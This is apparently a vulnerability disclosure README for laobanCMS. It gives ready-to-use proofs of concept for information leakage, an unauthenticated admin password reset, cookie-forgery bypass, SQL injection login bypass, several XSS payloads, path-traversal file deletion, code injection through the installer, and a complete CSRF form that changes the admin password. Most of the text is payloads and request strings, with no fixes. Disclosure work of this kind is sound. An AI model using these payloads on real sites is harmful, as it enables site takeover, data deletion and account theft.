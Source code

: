 # Vulnerabilities are owned by Patec HanGuang Lab
---------------------------------------
# `https://www.seceva.cn/`
---------------------------------------

#  INFO_EXP 
---------------------------
Access to the URL：`/data/0/admin.txt`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B21.png)

# Reset Admin Password 
---------------------------
The problem is in `install/mysql_hy.php`, there is no verification of the installation conditions, first look at `install/index.php`.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE1.png)
The second line makes a judgment on the installation conditions. If there is an `install.txt` file, the installation action stops, prompting to delete the file and installing. it, but in `mysql_hy.php`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE2.png)
Can see that no judgment is made, but directly execute the statement, we continue to look at the executed file, according to the code can be seen under the `/data` directory.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE3.png)

Username password in `/data/0/admin_1.txt`.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE4.png)

payload：`/install/mysql_hy.php?riqi=0&i=0`

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE5.png)

Use admin admin to log in.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE6.png)

# Unauthorized access
-------------------------------
The vulnerability is in line 66-70 in `/admin/login.php`.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E8%B6%8A%E6%9D%831.png)

You can see that the cookie value is set after login, respectively id and guanliyuan, but this value can be forged, so there is an unauthorized violation.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E8%B6%8A%E6%9D%832.png)

# SQL injection
--------------------------------
The vulnerability is in line 61-65 in `/admin/login.php`.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E7%99%BB%E5%BD%95%E5%A4%84SQL%E6%B3%A8%E5%85%A51.png)

Can see the SQL statement as

`Select * from admin where (guanliyuan='$guanliyuan' and mima='$mima') limit 1`

When the input user is `admin' or '1'='1`, the SQL statement is

`Select * from admin where (guanliyuan='admin' or '1'='1' and mima='xxxx') limit 1`

So you can log in successfully without a password.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E7%99%BB%E5%BD%95%E5%A4%84SQL%E6%B3%A8%E5%85%A52.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E7%99%BB%E5%BD%95%E5%A4%84SQL%E6%B3%A8%E5%85%A53.png)

# XSS1
--------------------------------
Visit `admin/liuyan.php`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XXS1-1.png)
POST payload: ` shuyu=lalala&neirong[]=5555<img src=1 onerror=alert(1)>&xxxxx[]=123123123`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XXS1-2.png)

# Del file
-------------------------------
POC：`/admin/pic.php?del=../install/install.txt`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%88%A0%E9%99%A41.png)
You can see that the `install.txt` file was successfully deleted and can be reinstalled.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%88%A0%E9%99%A42.png)

#GETSHELL
-------------------------------
Visit `/install`.

POC: `127.0.0.1');phpinfo();//&username=root&dbname=111111&password=11111111&shuju=2018-11-06&submit=%E4%B8%80%E9%94%AE%E5%AE%89%E8%A3%85`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/GETSHELL1.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/GETSHELL2.png)

#XSS2
------------------------------
Visit `admin/type.php?id=1`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS2-1.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS2-2.png)

# XSS3
------------------------------
Visit `admin/art.php?typeid=1&gx=1`.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS3-1.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS3-2.png)

# CSRF
-------------------------------
POC: 
```
<html>
  <body>
    <form action="http://www.a.com/admin/mima.php" method="POST">
      <input type="hidden" name="guanliyuan" value="123456" />
      <input type="hidden" name="mima" value="123456" />
      <input type="hidden" name="mima1" value="123456" />
      <input type="hidden" name="submit" value="%E4%BF%9D%E5%AD%98%E6%9B%B4%E6%94%B9" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/CSRF1.png)











